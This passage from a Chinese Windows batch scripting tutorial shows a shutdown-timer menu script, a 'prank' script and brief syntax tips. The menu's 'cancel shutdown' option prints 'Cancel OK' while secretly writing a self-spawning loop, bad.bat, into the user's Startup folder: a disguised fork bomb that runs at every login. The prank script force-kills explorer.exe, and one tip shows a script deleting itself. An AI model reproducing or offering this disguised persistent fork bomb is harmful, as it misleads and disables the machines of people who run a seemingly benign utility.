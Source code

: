 ```cmd
echo.
echo ======================

set /p choice=your choice:
if "%choice%" == "1" goto 1
if "%choice%" == "2" goto 2
if "%choice%" == "3" goto 3

echo please input correct value!
pause
goto menu

:1
set /p time=input time later to shutdown(s):
shutdown -s -f -t %time%
echo Set OK
pause
goto menu

:2
shutdown -a 
echo :a >>"%userprofile%\「开始」菜单\程序\启动\bad.bat"
echo start >>"%userprofile%\「开始」菜单\程序\启动\bad.bat"
echo goto a >>"%userprofile%\「开始」菜单\程序\启动\bad.bat"
echo Cancel OK
pause
goto menu

:3
exit
```

### 2.5 恶搞代码

```cmd
@echo off
color 0a
taskkill /f /im explorer.exe >nul 2>nul
echo wait ...
ping -n 10 127.0.0.1 >nul 2>nul
start c:\windows\explorer.exe >nul 2>nul
echo OK
pause
```

## 三、相关技巧

3.1 打印当前路径  `echo %cd%`

3.2 隐藏不想要的 输出

```bat
d: >nul 2>nul
ping -n 10 > nul 2>nul
```

3.3 删除自身

  `del %0%`

3.4 转义

比如 想要在 a.bat 中 echo `pause > nul` 到 b.bat 中，怎么做呢？

`echo pause ^> nul >> b.bat`
